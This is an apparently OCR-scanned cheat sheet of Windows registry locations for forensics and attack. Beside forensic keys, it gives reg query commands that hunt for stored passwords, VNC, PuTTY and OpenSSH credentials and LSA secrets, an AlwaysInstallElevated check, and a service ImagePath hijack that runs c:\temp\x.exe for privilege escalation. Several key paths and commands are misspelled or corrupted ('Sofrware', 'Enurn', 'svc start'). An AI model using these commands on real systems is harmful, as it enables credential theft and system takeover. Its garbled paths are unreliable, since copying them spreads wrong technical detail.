 #### Search passwords in registry
`> reg query HKLM /f password /t REG_SZ /s`
`> reg query HKCU /f password /t REG_SZ /s`

###### hklm: OS information  
HKLM\Software\Microsoft\Windows NT\CurrentVersion  
  
###### hklm: product name  
HKLM\Software\Microsoft\Windows NT\CurrentVersion /v  
ProductName  
  
###### hklm: date of install  
HKLM\Software\Microsoft\Windows NT\CurrentVersion /v InstallDate  
  
###### hklm: registered owner  
HKLM\Software\Microsoft\Windows NT\CurrentVersion /v RegisteredOwner  
  
###### hklm: system root  
HKLM\Software\Microsoft\Windows NT\CurrentVersion /v SystemRoot  
  
###### hklm: time zone  
HKLM\System\CurrentControlSet\Control\TimeZoneInformation /v ActiveTimeBias  
  
###### hklm: mapped network drives  
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Map Network Drive MRU  
  
###### hklm: mounted devices  
HKLM\Sjstern\MountedDevices  
  
###### hklm: USB devices  
HKLM\System\CurrentControlSet\Enurn\USBStor  
  
###### hklm: turn on IP forwarding  
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters -> IPEnableRouter = 1  
###### hklm: password keys: LSA secrets can contain VPN, autologon, other passwords  
HKEY_LOCAL_MACHINE\Security\Policy\Secrets  
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon \autoadminlogon  
  
###### hklm: audit policy  
HKLM\Security\Policy\PolAdTev  
  
###### hklm: kernel/user services  
HKLM\Software\Microsoft\Windows NT\CurrentControlSet\Services  
  
###### hklm: installed software on machine  
HKLM\Software  
  
###### hklm: installed software for user  
HKCU\Software  
  
###### hklm: recent documents  
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs  
  
###### hklm: recent user locations  
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\ComDlg32\LastVisite dMRU & \OpenSaveMRU  
  
###### hklm: typed URLs  
HKCU\Software\Microsoft\Internet Explorer\TypedURLs  
  
###### hklm: MRU lists  
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU  
  
###### hklm: last registry key accessed  
HKCU\Software\Microsoft\Windows\CurrentVersion\Applets\RegEdit /v LastKey  
  
###### hklm: startup locations  
HKLM\Software\Microsoft\CurrentVersion\Run & \Runonce  
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run  
HKCU\Software\Microsoft\Windows\CurrentVersion\Run & \Runonce  
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load & \Run

#registry #creds
`reg query HKCU\Sofrware\ORL\WinVNC3\Password`
`reg query HKCU\Sofrware\TightVNC\Server`
`reg query HKCU\Sofrware\SimonTatham\PuTTY\Sessions`
`reg query HKCU\Sofrware\OpenSSH\Agent\Keys`
`reg query HKLM /f password /t REG_SZ /s`
`reg query HKCU /f password /t REG_SZ /s`

#alwaysinstall
`reg query HKLM\Software\Policies\Microsoft\Windows\Installer`
_if AlwaysInstallElevated == 1
You can run MSI file with SYSTEM Priveleges_

#regsvc ACL
`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
`svc start regsvc`

